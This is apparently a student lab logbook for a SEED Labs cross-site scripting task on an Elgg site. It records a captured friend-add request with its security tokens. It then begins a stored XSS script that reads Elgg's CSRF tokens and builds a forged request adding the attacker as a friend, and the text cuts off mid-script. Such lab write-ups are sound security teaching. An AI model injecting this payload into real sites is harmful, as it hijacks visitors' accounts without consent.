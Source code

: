         Questions: 

      1. The line marked with #1 and #2 are used to store the logged in user's security tokens. We need these values in order to prove the request's authenticity.

      2. The editor mode writes HTML to the page. If we couldn't access the "Edit HTML" editor on the Edit Profile menu, we could still use the command `curl` in the console to execute a successful attack or use the browser's console and write JavaScript altering the innerHTML property in order to change any HTML value.

    - Using the "HTTP Header Live" add-on on Firefox, we can see that, when we go to Boby's profile and add him as a friend (we're logged in as Alice), the following HTTP request is sent to the server: `http://www.seed-server.com/action/friends/add?friend=57&__elgg_ts=1670412977&__elgg_token=sl0pVxZjMMt-vqH8EvQ4fw`

    <figure>
        <img src="images/logbook10/task4/1.png" alt="Adding Boby as a friend" width="50%" />
        <figcaption><strong>Fig 10. </strong>Adding Boby as a friend</figcaption>
    </figure>

   - Filling in the skeleton JavaScript with the correct link, using the variables given, we get the following payload:

        ```js
        <script type="text/javascript">
            window.onload = function () {
                var Ajax=null;

                var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; 
                var token="&__elgg_token="+elgg.security.token.__elgg_token; 

                //Construct the HTTP request to add Samy as a friend.
                var sendurl= "http://www.seed-server.com/action/friends/add?friend=56" + ts + token;
